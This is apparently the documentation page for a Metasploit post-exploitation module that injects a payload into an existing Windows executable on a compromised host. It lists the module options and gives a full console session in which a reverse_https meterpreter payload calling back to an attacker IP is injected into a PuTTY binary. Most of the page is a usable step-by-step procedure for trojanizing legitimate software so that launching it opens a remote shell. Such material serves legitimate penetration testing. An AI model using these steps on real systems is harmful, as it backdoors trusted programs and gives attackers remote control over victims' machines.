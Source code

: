## Overview
This module inserts a payload into an existing PE file on a remote
machine.  When a user launches the binary, the payload will run
as a thread within the process with the same privs.

## Options
LHOST  IP of host that will receive the connection from the payload.
LPORT  Port for Payload to connect to.
OPTIONS Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
PAYLOAD Windows Payload to inject into the targer executable.
SESSION The session to run this module on.
TARGETPE Path of the target executable to Path of the target executable to be injected

## Limitations
This process is not reverse-able.  If you would like to return the
binary to it's original state, save a copy.

THE PAYLOAD WILL NOT SPAWN AN INDEPENDENT PROCESS/THREAD AND THE SESSION
WILL DIE WITH THE BINARY AND/OR WILL KILL THE BINARY WHEN THE SESSION
EXITS.  Be careful closing sessions that were spawned using this method!

If a setting is wrong, it may cause the binary to fail to launch,
alerting the user to possible shinnanigans.

## Vulnerable Applications
`Vulnerable` is a bad term; this module inserts shellcode into a pe
file.  That means any Windows pe files are `vulnerable`.
Be aware that some files like calc.exe on later Windows versions
are not entirely normal in their behvior and are not `vulnerable`

## Verification steps
* get session on target
* `use post/windows/manage/peinjector`
* `set payload <payload>`
* `set lport <lport>`
* `set lhost <lhost>`
* `set targetpe <*.exe>`
* `run`

## Usage
```
meterpreter > sysinfo
Computer        : WIN10X64-1511
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/windows/manage/peinjector 
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                    Required  Description
   ----      ---------------                    --------  -----------
   LHOST                                        yes       IP of host that will receive the connection from the payload.
   LPORT     4433                               no        Port for Payload to connect to.
   OPTIONS                                      no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/meterpreter/reverse_https  no        Windows Payload to inject into the targer executable.
   SESSION                                      yes       The session to run this module on.
   TARGETPE                                     no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 post(windows/manage/peinjector) > set lport 4561
lport => 4561
msf5 post(windows/manage/peinjector) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf5 post(windows/manage/peinjector) > set session 1
session => 1
msf5 post(windows/manage/peinjector) > set targetpe 'C:\users\msfuser\downloads\puttyx64.exe'
targetpe => C:\users\msfuser\downloads\puttyx64.exe
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   LHOST     192.168.135.111                          yes       IP of host that will receive the connection from the payload.
   LPORT     4561                                     no        Port for Payload to connect to.
   OPTIONS                                            no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/x64/meterpreter/reverse_https    no        Windows Payload to inject into the targer executable.
   SESSION   1                                        yes       The session to run this module on.
   TARGETPE  C:\users\msfuser\downloads\puttyx64.exe  no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > run

[*] Running module against WIN10X64-1511
[*] Generating payload
[*] Injecting Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet) into the executable C:\users\msfuser\downloads\puttyx64.exe
[+] Successfully injected payload into the executable: C:\users\msfuser\downloads\puttyx64.exe
[*] Post module execution completed
msf5 post(windows/manage/peinjector) >
```


